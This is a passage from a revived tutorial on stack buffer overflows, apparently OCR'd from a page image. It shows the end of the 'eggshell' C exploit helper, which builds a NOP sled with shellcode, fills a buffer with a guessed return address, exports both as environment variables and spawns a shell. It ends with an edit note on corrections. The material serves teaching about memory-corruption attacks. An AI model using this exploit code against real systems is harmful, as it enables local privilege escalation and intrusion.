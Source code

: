 	  addr = get_sp() - offset;
	  printf("[ Buffer size:\t%d\t\tEgg size:\t%d\tAligment:\t%d\t]\n",
	    bsize, eggsize, align);
	  printf("[ Address:\t0x%x\tOffset:\t\t%d\t\t\t\t]\n", addr, offset);
	
	  addr_ptr = (long *) bof;
	  for (i = 0; i < bsize; i+=4)
	    *(addr_ptr++) = addr;
	
	  ptr = egg;
	  for (i = 0; i <= eggsize - strlen(shellcode) - NOP_SIZE; i += NOP_SIZE)
	    for (n = 0; n < NOP_SIZE; n++) {
	      m = (n + align) % NOP_SIZE;
	      *(ptr++) = nop[m];
	    }
	
	  for (i = 0; i < strlen(shellcode); i++)
	    *(ptr++) = shellcode[i];
	
	  bof[bsize - 1] = '\0';	
	  egg[eggsize - 1] = '\0';

	memcpy(egg,"EGG=",4);
	putenv(egg);

	memcpy(bof,"BOF=",4);
	putenv(bof);
	system("/bin/sh");
	}

	void usage(void) {
		(void)fprintf(stderr,
    	"usage: eggshell [-a <alignment>] [-b <buffersize>] [-e <eggsize>] [-o 	<offset>]\n");
	}


---
>Edit : Some errors which were propogated from original document has been corrected.
Thanks to this [reddit](https://www.reddit.com/r/netsec/comments/43kqs3/smashing_the_stack_for_fun_profit_revived/czjects) comment.
